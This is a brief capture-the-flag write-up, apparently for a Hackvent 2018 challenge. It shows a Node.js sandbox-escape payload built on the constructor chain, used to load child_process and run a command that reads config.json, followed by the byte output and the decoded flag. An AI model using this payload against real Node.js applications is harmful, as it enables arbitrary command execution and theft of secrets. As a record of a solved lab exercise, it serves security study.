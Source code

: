 From GitHub:

new Function("
  return (
    this.constructor.constructor('
      return (this.process.mainModule.constructor._load
     )'
    )())"
  )()
("util").inspect("test")

New attempt:

new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("child_process").execSync("cat config.json")

{ type: 'Buffer',
data:
[ 123,
10,
32,
34,
102,
108,
97,
103,
34,
58,
34,
72,
86,
49,
56,
45,
89,
116,
72,
51,
45,
83,
52,
110,
68,
45,
98,
120,
53,
65,
45,
78,
116,
52,
71,
34,
44,
10,
32,
34,
112,
111,
114,
116,
34,
58,
51,
48,
48,
48,
10,
125,
10,
10 ] }

Decoded with Python + DEC -> ASCII:

{
 "flag":"HV18-YtH3-S4nD-bx5A-Nt4G",
 "port":3000
}
